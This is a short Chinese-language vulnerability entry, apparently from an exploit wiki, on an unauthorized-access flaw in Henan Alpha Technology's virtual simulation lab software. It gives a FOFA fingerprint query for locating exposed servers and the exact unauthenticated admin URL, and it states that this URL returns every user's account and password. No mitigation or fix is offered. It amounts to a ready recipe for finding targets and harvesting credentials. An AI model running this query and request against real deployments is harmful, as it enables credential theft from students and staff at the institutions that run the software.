 # 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 虚拟仿真实验室

## FOFA

> [!NOTE]
>
> body="河南阿尔法科技有限公司"

## 漏洞复现

未授权的Url为

```
/admin/student/studentlist.html?page=1 
```

![](http://wikioss.peiqi.tech/vuln/xn-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/